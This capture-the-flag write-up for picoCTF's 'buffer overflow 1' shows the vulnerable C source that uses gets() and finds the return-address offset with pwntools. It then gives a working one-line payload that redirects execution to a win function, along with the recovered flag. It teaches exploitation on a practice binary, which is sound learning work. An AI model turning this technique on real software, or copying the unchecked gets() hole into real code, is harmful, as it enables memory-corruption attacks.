 # buffer overflow 1
Points: 200

## Category
Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source. 

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.

## Solution
Before looking at the source code, we can run the program first.

```
$ ./vuln 
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```

Looks like it takes in an input, and jumps to an address. Let's look at the source code now.

```c
// Imports here...
#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
	char buf[FLAGSIZE];
	FILE *f = fopen("flag.txt","r");
	// Reading flag file
	printf(buf);
}

void vuln(){
	char buf[BUFSIZE];
	gets(buf);

	printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
	// Unimportant stuff
	puts("Please enter your string: ");
	vuln();
	return 0;
}
```

We can see that the address that it shows us is the return address, which should be the address of _main_. If we do a buffer overflow, we can take control of the return address, and let the program jump to wherever we want.

In this case, we would like to jump to the _win_ function, which prints out the flag.

Let's try spamming the program again to see if our hunch is correct.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

The return address has been overwritten to _0x41414141_, which is the hex value of _A_. As long as we can find the correct amount of padding, we can control the where the return pointer returns to.

We can use the [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), which will find the padding we need. We will use _pwntools_.

```python
>>> from pwn import *
>>> cyclic(100)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

We can now feed that string into the program and see what address the program jumps to.

```
$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

Ok, it jumps to _0x6161616c_. We can use `cyclic_find()` to find the offset. First we convert the hex back into ASCII. Remember that this is in little endian format. `p32()` just converts the hex back into ASCII in little endian format.

```python
>>> from pwn import *
>>> cyclic_find(p32(0x6161616c))
44
```

Now we know the amount of padding required. Let's test it again, with 44 'A's, and another 4 'B's. We should expect the address to show _0x41414141_.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault
```

Just as we expected. All that's left to do is to replace _BBBB_ with the ASCII values that corresponds to the address of the _win_ function.


```python
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] '/root/Desktop/picoCTF/Binary Exploitation/buffer overflow 1/solution/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
>>> 'A' * 44 + '\xcb\x85\x04\x08'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08'
```

Of course, we cannot type _\xcb\x85\x04\x08_ in ASCII format, so all we have to do is have Python output this string, and pipe it into the program _vuln_.

```
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{sample_flag}
Segmentation fault
```

Great! It works locally, all we have to do now is run it on the web shell.

```
$ cd /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy65489706}Segmentation fault
```

And we get the flag!

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{addr3ss3s_ar3_3asy65489706}`


附带参考资料https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-0
```sh
python2 -c "from pwn import *;print(44*'A'+(p32(0x080485cb)))"|./vuln
```

